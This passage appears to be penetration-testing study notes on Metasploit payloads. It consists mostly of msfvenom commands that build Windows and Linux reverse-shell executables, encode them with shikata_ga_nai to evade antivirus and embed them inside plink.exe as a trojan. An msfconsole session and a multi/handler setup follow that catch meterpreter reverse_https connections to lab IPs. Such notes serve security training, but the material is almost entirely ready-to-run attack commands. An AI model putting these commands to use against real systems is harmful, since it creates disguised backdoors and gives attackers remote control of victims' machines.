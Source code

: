 ```
ftp 127.0.0.1

shell

exit

```

There are other payloads that have use cases in specific situations like vncinject/reverse_http, which creates a reverse VNC713 graphical connection or php/reverse_php, which is a reverse shell written entirely in PHP that can be used to exploit a PHP web application. More exotic payloads also exist like mainframe/reverse_shell_jcl, which is a reverse shellcode for a Z/OS mainframe.


###### Executable Payloads - msfvenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe

file shell_reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.119.175 LPORT=4444 -f elf -o shell_reverse_staged

msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.119.175 LPORT=4444 -f elf -o shell_reverse_non-staged

```

The process in msfconsole

```
msf5 > use payload/windows/shell_reverse_tcp

msf5 payload(windows/shell_reverse_tcp) > set LHOST 10.11.0.4
LHOST => 10.11.0.4

msf5 payload(windows/shell_reverse_tcp) > set LPORT 443 LPORT => 443

msf5 payload(windows/shell_reverse_tcp) > generate -f exe -e x86/shikata_ga_nai -i 9 - x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
[*] Writing 311296 bytes to shell_reverse_msf_encoded_embedded.exe...

```
###### Metasploit Exploit Multi Handler

```

use multi/handler

set payload windows/meterpreter/reverse_https

show options

set LHOST 192.168.119.175

set LPORT 443

exploit

exploit -j
```